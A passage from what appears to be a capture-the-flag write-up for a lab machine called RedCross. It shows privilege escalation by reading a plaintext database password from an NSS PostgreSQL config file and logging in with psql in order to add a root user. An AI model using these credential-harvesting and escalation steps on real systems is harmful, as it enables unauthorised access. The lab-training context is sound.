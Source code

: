 I have the root group, but I still can’t read `root.txt`, as it’s only readable to the root user:

```

ro0xdft@redcross:~$ cat root.txt 
cat: root.txt: Permission denied

ro0xdft@redcross:~$ ls -l root.txt 
-rw------- 1 root root 33 Jun  8  2018 root.txt

```

#### Find psql Configs

The jail in use here is based on something called Name Service Switch, which allows you to store user and group information in a database. PostgreSQL has a plugin for this (here’s an [interesting blog](http://www.karoltomala.com/blog/?p=869) for more reading).

There are two configuration files the article lists that define querying information from the database and feeding it to NSS: `nss-pgsql.conf` and `nss-pgsql-root.conf`. I can see both of those on RedCross:

```

ro0xdft@redcross:/etc$ ls -l nss-pgsql*
-rw-r--r-- 1 root root 1341 Jun  8  2018 nss-pgsql.conf
-rw-rw---- 1 root root  540 Jun  8  2018 nss-pgsql-root.conf

```

While `nss-pgsql.conf` has information I was already aware of, I’ll find a new user for the database, unixnssroot, in `nss-pgsql-root.conf`:

```

ro0xdft@redcross:/etc$ cat nss-pgsql-root.conf 
shadowconnectionstring = hostaddr=127.0.0.1 dbname=unix user=unixnssroot password=30jdsklj4d_3 connect_timeout=1
shadowbyname = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE username = $1 ORDER BY lastchange DESC LIMIT 1;
shadow = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE (username,lastchange) IN (SELECT username, MAX(lastchange) FROM shadow_table GROUP BY username);

```

#### Add root User

Now I can connect to the database using the unixnssroot user and password from the config file:

```

ro0xdft@redcross:/etc$ psql -h 127.0.0.1 -U unixnssroot -p 5432 -d unix
Password for user unixnssroot: 
psql (9.6.7)
SSL connection (protocol: TLSv1.2, cipher: ECDHE-RSA-AES256-GCM-SHA384, bits: 256, compression: off)
Type "help" for help.

unix=>

```
